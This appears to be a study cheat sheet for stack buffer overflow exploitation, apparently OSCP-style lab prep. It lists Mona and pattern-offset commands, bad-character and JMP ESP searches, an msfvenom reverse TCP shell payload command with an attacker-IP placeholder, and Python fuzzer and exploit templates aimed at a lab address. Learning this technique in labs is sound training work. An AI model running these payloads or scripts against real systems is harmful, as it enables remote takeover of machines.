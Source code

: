 # System Security

### Pattern Create/Offset

[Pattern Create/Offset github](https://github.com/ickerwx/pattern)

Usage:

```bash
$ ./pattern create 2048
```
```bash
$ ./pattern offset 0x67433966
```

Metasploit
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb
```

[Mona Plugin](https://github.com/corelan/mona)

Usage :
```Mona
!mona pc 2048
```
```Mona
!mona po 0x67433966
```


### Mona Commands

Installation :
Copy `mona.py` file into **PyCommand** folder inside **Imunity Debugger** installation folder.

Then set working folder for **Mona** :
```Mona
!mona config -set workingfolder C:\ImmunityLogs\%p
```


Once application crashes and **EIP** is overwriten, run following command to provide **Metasploit** Module for exploiting the application :

```
!mona suggest
```


List of avalable modules used by application :
```Mona
!mona modules
```

List of modules, which have not ASLR enabled :
```Mona
!mona noaslr
```




### Finding Bad Characters


```Python
#!/usr/bin/env python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```


**Generate bytearray.bin** 
```Mona
!mona bytearray -b "\x00"
```


**Compare**
```Mona
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP_address>
```


> [!NOTE]
> Remember that badchars can affect the next byte as well!




### CALL ESP / JMP ESP

[findjmp2](https://github.com/nickvido/littleoldearthquake/blob/master/corelan/findjmp/findjmp2.c) 

usage :
```Powershell
.\findjmp.exe kernel32.exe esp
```

[Mona Plugin Documentation](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)

Usage :
```Mona
!mona jmp -r esp -m kernel
```
```Mona
!mona jmp -r esp -m kernel32.dll
```
```Mona
!mona jmp -r esp -cpb "\x00"
```

> [!Note]
>  In order to correctly write this address, we will have to write it in little-endian.


## MSFVenom

Payload :
```
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine IP] LPORT=4444 -f c  -b "\x00\x0A\x0D" 
```





## Exploits

**Fuzzer**
```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.33.182"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```


**Exploit**
```Python
#!/usr/bin/env python3
import socket

ip = "10.10.33.182"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
